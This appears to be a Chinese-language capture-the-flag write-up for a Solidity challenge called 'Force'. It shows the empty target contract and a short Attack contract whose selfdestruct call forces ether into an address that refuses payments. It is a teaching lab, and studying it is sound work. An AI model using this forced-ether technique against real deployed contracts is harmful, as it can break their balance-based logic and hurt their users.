 # 07 - Force

## 题目

有些合约就是拒绝你的付款,就是这么任性 ¯\_(ツ)_/¯

这一关的目标是使合约的余额大于0

```// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
   ```

## 解题
合约不接受 transfer 的资产，可以通过销毁合约的机制，将合约剩余的资金转移到这个题目合约上。
合约代码如下：

```

pragma solidity ^0.8.0;

contract Attack {
    function forceTransfer(address payable _addr) payable external {
        selfdestruct(_addr);
    }
}
```

